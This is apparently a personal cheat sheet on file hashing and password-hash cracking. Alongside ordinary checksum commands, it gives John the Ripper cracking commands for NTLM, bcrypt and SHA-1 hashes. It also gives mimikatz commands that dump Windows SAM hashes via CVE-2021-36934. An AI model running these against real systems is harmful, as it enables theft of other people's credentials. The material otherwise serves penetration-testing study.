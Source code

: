 
# Random File
* 
```bash
# 8MB random file
 dd if=/dev/urandom of=randomfile bs=4M count=2
```

# Hashing and Digests
# --check, -c to check the files

```bash
md5sum path/to/file1 path/to/file2 ... > path/to/file.md5
md5sum --check path/to/file.md5 
# same syntax
sha1sum
sha256sum
sha512sum
```

```powershell
certutil -hashfile path/to/file1 md5
# same syntax
certutil -hashfile path/to/file1 sha1
certutil -hashfile path/to/file1 sha256
certutil -hashfile path/to/file1 sha512
```

# Find File by Hash (recursive)

```bash
find /etc -type f -exec sha256sum {} \; | grep "sha256-hash"
```



# Password Has Identification
* hashid https://psypanda.github.io/hashID/
* hash-identifier https://psypanda.github.io/hashID/


# Password Hash Cracking
* Online Password Crackstation https://crackstation.net/
* Kali use john (the ripper)

```bash
# Prepare
cp /usr/share/wordlists/rockyou.txt.gz .; gunzip rockyou.txt.gz
# Windows
echo -n 'User:1001:aad3b435b51404eeaad3b435b51404ee:4056DA565EFF865C23687B2D1CEF8242:::' > ntlm.hash
john --wordlist=rockyou.txt --format=NT ntlm.hash 
john --show ntlm.hash 
# Linux
echo -n 'linux:$2y$10$oHnLh4lejEKMTqo7vARr7O56/O1DgT3kscywsmF5zKtkSxlgAJ2v2' > linux.hash
john --wordlist=rockyou.txt linux.hash
# Hash
echo -n '5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8' > sha1.hash
john --wordlist=rockyou.txt --format=raw-sha1 sha1.hash
john --show sha1.hash


```

# Windows Password Hash
* Windows Security Account Manager `uid:rid:lm hash:ntlm hash`

```powershell
# Windows SAM file can be found in %SystemRoot%/system32/config/SAM and is mounted on HKLM/SAM and SYSTEM privileges are required to view it.
# LM hash "aa...ee" is an empty string 
# NTLM hash is "88..6D" is salted hash
# https://specopssoft.com/de/blog/microsoft_wechselt_von_ntlm_auf_kerberos/
User:1001:aad3b435b51404eeaad3b435b51404ee:8846F7EAEE8FB117AD06BDD830B7586D:::
```

# Dump NTLM Hash on Windows 10 (20H2)
* https://www.bleepingcomputer.com/news/microsoft/new-windows-10-vulnerability-allows-anyone-to-get-admin-privileges/
* CVE-2021-36934

Windows Host vulnerable?

```powershell
icacls %SystemRoot%/system32/config/SAM
[!] BUILTIN\Users:(I)(RX)
```

Use mimikatz to dump NTLM from Volume Shadow Copy (VSS)

```powershell
# extract
mimikatz
lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM 
lsadump::sam /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM
```

# Linux Password Hash
* Linux Shadow File entry with optional param`$id$param$salt$hash` 

```bash
# Linux /etc/shadow
$2a$10$VIhIOofSMqgdGlL4wzE//e.77dAQGqntF/1dT7bqCrVtquInWy2qi
$y$j9T$F5Jx5fExrKuPp53xLKQ..1$X3DX6M94c7o.9agCG9G317fhZg9SqC.5i5rd.RhAtQ7
```

```bash
# Linux Shadow file identifier
$1$: MD5-based crypt ('md5crypt')
$2$: Blowfish-based crypt ('bcrypt')
$2y$: Eksblowfish
$sha1$: SHA-1-based crypt ('sha1crypt')
$5$: SHA-256-based crypt ('sha256crypt')
$6$: SHA-512-based crypt ('sha512crypt')
$y$: yescrypt
$gy$: ghost yesscrypt 
```

## Make Linux Password

```bash
mkpasswd -m help
mkpasswd -m bcrypt -R 10 "PASSWORD"
mkpasswd -m sha512crypt -S "SALT" "PASSWORD" 
```

